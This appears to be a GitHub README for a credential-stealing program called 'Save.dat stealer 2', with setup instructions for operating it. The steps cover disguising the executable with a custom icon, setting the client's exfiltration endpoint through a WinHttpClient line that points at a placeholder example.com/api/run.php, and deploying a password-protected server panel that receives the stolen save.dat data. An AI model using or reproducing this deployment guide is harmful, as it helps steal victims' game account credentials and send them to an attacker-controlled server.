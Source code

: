 # Save.dat-stealer-2
New good-looking save.dat stealer with simple administration.

# Here is how to sutup everything: 
# Client - setup:

**Steps to create app with icon:**  
1.) Change these lines in Save.dat stealer 2.rc (in folder Save.dat stealer 2):  
     //IDI_SAVEDATSTEALER2       ICON         "Save.dat stealer 2.ico"  
     //IDI_SMALL               ICON         "small.ico"  
   
   To:  
     IDI_SAVEDATSTEALER2       ICON         "Save.dat stealer 2.ico"  
     IDI_SMALL               ICON         "small.ico"  

2.) Change files Save.dat stealer 2.ico and small.ico to icon which you wish to use!  
    Please remember to keep their orginal sizes, so Save.dat stealer 2.ico to 32x32 and small.ico to 16x16!  




**Steps to set your server URL:**  
1.) Open project file in visual studio ( Save.dat stealer 2.sln )  

2.) Find example url and change it to yours.  
    The line which you need to change is WinHttpClient client(L"http://example.com/api/run.php"); // here put url to server part  
    And in the fact you just need to change example.com to your domain.  
    
    
# Server - setup:
1.) Copy all client files to your webpage folder.  
2.) Go to main page and create password for your website.  
3.) Now you are ready to use it!  
